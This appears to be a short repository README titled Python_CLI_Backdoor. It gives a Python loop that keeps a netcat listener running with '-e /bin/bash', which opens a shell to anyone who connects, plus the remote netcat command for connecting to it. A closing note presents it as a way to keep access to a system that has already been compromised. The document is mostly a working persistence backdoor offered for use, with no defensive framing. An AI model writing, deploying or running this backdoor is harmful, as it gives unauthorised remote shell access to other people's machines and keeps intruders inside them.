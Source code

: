 # Python_CLI_Backdoor

## Objective
Create persistant backdoor utilizing python3 and netcat in Linux CLI

## On Host
```ruby
python3
>>> import os
>>> while True:
...  os.system("nc -l -p portnumber -e /bin/bash")
```
- import os essentially imports bash commands to allow us to execute within python code
-  os.system specifies the bash commands being executed
-  nc : opens tcp connections
-  -l :listen for incoming connections, creating a server
-  -p :specifies what port we will occupy w/ our server
-  -e :allows us to execute commands within /bin/bash

To access this server from a remote system 
## On Remote System
```ruby
nc host-ip-address portnumber
```
Once you are in you can execute bash commands from remote host to be executed on server

## Considerations
The only issue with this attack vector is the need to aready have access to host system, however if you manage a temporary backdoor this could be
a great way to maintain that door open.
